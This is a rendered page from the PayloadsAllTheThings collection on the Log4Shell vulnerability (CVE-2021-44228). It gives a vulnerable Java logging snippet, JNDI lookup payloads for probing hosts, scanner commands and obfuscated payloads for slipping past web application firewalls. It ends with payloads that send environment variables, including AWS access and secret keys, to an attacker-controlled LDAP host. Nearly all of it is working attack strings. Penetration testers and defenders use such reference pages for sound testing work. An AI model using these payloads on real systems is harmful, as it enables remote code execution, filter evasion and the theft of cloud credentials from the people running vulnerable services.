

repository: swisskyrepo/PayloadsAllTheThings · page: CVE Exploits/Log4Shell/index.html · generator: mkdocs

# CVE-2021-44228 Log4Shell

> Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled

## Summary

* [Vulnerable code](#vulnerable-code)
* [Payloads](#payloads)
* [Scanning](#scanning)
* [WAF Bypass](#waf-bypass)
* [Exploitation](#exploitation)
    * [Environment variables exfiltration](#environment-variables-exfiltration)
    * [Remote Command Execution](#remote-command-execution)
* [References](#references)

## Vulnerable code

You can reproduce locally with: `docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app` using [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) or [leonjza/log4jpwn](
https://github.com/leonjza/log4jpwn)

```java
public String index(@RequestHeader("X-Api-Version") String apiVersion) {
    logger.info("Received a request for API version " + apiVersion);
    return "Hello, world!";
}
```

## Payloads

```bash
# Identify Java version and hostname
${jndi:ldap://${java:version}.domain/a}
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:dns://${hostName}.domain}

# More enumerations keywords and variables
java:os
docker:containerId
web:rootDir
bundle:config:db.password
```

## Scanning

* [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan) - Log4Shell scanning utility

    ```powershell
    usage: log4j-scan.py [-h] [-u URL] [-l USEDLIST] [--request-type REQUEST_TYPE] [--headers-file HEADERS_FILE] [--run-all-tests] [--exclude-user-agent-fuzzing]
                        [--wait-time WAIT_TIME] [--waf-bypass] [--dns-callback-provider DNS_CALLBACK_PROVIDER] [--custom-dns-callback-host CUSTOM_DNS_CALLBACK_HOST]
    python3 log4j-scan.py -u http://10.10.10.10:8081 --run-all-test
    python3 log4j-scan.py -u http://10.10.10.10:8080 --waf-bypass
    ```

* [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/cves/2021/CVE-2021-44228.yaml)

## WAF Bypass

```powershell
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://10.10.10.10:1389/a}

# using lower and upper
${${lower:jndi}:${lower:rmi}://10.10.10.10:1389/poc}
${j${loWer:Nd}i${uPper::}://10.10.10.10:1389/poc}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}

# using env to create the letter
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//[ATTACKER.DOMAIN.TLD]/a}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//[ATTACKER.DOMAIN.TLD]/a}
```

## Exploitation

### Environment variables exfiltration

```powershell
${jndi:ldap://${env:USER}.${env:USERNAME}.[ATTACKER.DOMAIN.TLD]:1389/

# AWS Access Key
${jndi:ldap://${env:USER}.${env:USERNAME}.[ATTACKER.DOMAIN.TLD]:1389/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}
```
